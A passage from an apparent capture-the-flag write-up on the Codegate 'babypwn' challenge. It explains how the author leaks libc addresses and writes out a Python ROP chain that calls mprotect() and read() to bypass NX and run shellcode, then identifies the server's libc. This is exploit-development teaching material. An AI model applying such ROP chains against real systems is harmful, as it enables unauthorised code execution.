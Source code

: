 This returned the address of `send()`. The offset could be grabbed from my machine's `libc.so`:

![](/images/2017/codegate/babypwn/05.png)

Subtracting the offset from the address of `send()` returned libc's base address. From here on, I calculated the addresses for `mprotect()` and `read()` by adding their offsets from my libc.so to libc's base address. 

### Bypassing NX

The next step was to make a memory location read/write/execute and store my shellcode in there. To do that, I returned to `mprotect()` to make 0x0804b000 read/write/execute. From there, I returned to `read()` which would allow me to send in my shellcode. 

```
# -- STAGE 2 mprotect() a location to rwx and call read() to get shellcode in there --

buf_2 = ""
buf_2 += p32(addr_mprotect)
buf_2 += p32(0x08048eed)    # pop esi; pop edi; pop ebp; ret; 
buf_2 += p32(0x0804b000)    # address to mprotect()
buf_2 += p32(0x100)         # size to mprotect
buf_2 += p32(0x7)           # rwx

buf_2 += p32(addr_read)
buf_2 += p32(0x08048eed)    # pop esi; pop edi; pop ebp; ret; 
buf_2 += p32(0x4)           # sockfd
buf_2 += p32(0x0804b004)    # read shellcode in here
buf_2 += p32(0x100)         # len bytes to read

buf_2 += p32(0x0804b004)    # return to shellcode
buf_2 += "D"*200

payload = buf_1 + buf_2
```

### Getting the flag

So locally my exploit worked to give me a shell. However that was because I had a libc.so I could use to get the offsets for the functions I wanted. The challenge didn't provide a copy of the server's libc.so, which meant I needed to figure out which libc it was using. To do that, I used [http://libcdb.com/](http://libcdb.com/) and passed it the addresses of the `send()` function I leaked in stage 1. From there it identified the target's libc as libc-2.19_16.so, and I was able to get the offsets for the target's `mprotect()`, and `send()` functions. 

